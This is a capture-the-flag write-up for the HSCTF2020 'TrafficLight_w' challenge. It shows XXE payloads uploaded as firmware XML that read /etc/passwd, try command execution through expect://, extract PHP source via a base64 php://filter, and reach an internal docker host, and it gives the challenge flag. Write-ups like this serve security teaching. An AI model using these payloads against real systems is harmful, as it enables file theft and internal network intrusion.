

# HSCTF2020 - TrafficLight_w

- Write-Up Author: Rb916120 \[[MOCTF](https://www.facebook.com/MOCSCTF)\]

- Flag:**Flag{shh_im_mining_bitcion}**
## **Question:**
>TrafficLight_w



## Write up:

>Check the link first,


>It is a Shady Traffic Light Company, showing the status of the Traffic light and be able to upload Firmware?</rr></br>Alright ,let’s check what can be upload first. 


>download the example from the page. It is a XML file and the page will get respond after upload the XML maybe we can do XXE.

```xml
	<?xml version="1.0" encoding="ISO-8859-1"?>
	<!DOCTYPE haha
	  [<!ELEMENT haha ANY >
	<!ENTITY xxe SYSTEM "file:///etc/passwd">]>
	<root>
	<content>&xxe;</content>
	</root>
```
>Bingo! It is XXE and able to read file!!

>Because I don’t know where the flag is, the first thing I would run some commands to search the flag. 
```xml
	<?xml version="1.0" encoding="ISO-8859-1"?>
	<!DOCTYPE haha
	  [<!ELEMENT haha ANY >
	<!ENTITY xxe SYSTEM "expect://ls">]>
	<root>
	<content>&xxe;</content>
	</root>
```

>But no luck, I guess some restrict applied. let’s try get the source code of the page. 


>But still no luck. Lets try encoded respond
```xml
<?xml version="1.0" encoding="ISO-8859-1"?>
<!DOCTYPE haha
  [<!ELEMENT haha ANY >
<!ENTITY xxe SYSTEM "php://filter/convert.base64-encode/resource=firmware_upload.php">]>
<root>
<content>&xxe;</content>
</root>
```
>Boom!

 
>Decode the string, we got the upload code slice.

  
>Huh, no restriction!? Go back to the first step then go through again always is the best idea when you have no idea. :P


>Oh, wait port 80? With docker hostname?


>Let’s try to see what is inside the page
```xml
<?xml version="1.0" encoding="ISO-8859-1"?>
<!DOCTYPE foo
  [<!ELEMENT foo ANY >
<!ENTITY xxe SYSTEM "http://traffic-light-1004" >]>
<root>
<content>&xxe;</content>
</root>
```


Flag{shh_im_mining_bitcion}


